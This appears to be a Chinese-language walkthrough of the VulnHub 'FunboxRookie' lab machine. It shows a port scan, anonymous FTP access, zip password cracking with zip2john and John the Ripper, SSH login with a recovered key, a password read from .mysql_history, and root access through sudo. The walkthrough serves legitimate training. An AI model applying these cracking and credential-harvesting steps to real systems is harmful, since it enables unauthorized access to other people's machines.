


# FunboxRookie

> https://download.vulnhub.com/funbox/Funbox2.ova

靶场IP：`192.168.2.14`

扫描对外端口服务

```
┌──(root㉿kali)-[~/Desktop]
└─# nmap -p1-65535 -sV 192.168.2.14
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-08 08:59 EDT
Nmap scan report for 192.168.2.14
Host is up (0.00021s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 08:00:27:5A:06:B2 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds

```

ftp匿名登录

```
┌──(root㉿kali)-[~/Desktop]
└─# ftp 192.168.2.14
Connected to 192.168.2.14.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.2.14]
Name (192.168.2.14:root): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.2.5 !
230-
230-The local time is: Thu Sep 08 13:06:34 2022
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||47571|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 .
drwxr-xr-x   2 ftp      ftp          4096 Jul 25  2020 ..
-rw-r--r--   1 ftp      ftp           153 Jul 25  2020 .@admins
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
-r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
-rw-r--r--   1 ftp      ftp           114 Jul 25  2020 .@users
-rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
226 Transfer complete

```

下载所有 zip 文件后首先我们使用 zip2john 工具生成所有文件的哈希。我们只破解了两个 zip 文件 `cathrine.zip` 和 `tom.zip`。让我们提取 zip 文件数据 提取文件后，我们找到了一个私有 SSH 密钥

```
zip2john tom.zip > tom.hash
john --wordlist=/usr/share/wordlists/rockyou.txt tom.hash
unzip tom.zip
```



使用密钥登录



查看`.mysql_history`找到tom的密码：`xx11yy22!`

```
tom@funbox2:~$ cat .mysql_history
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
tom@funbox2:~$ sudo su root
root@funbox2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox2:/home/tom# 

```

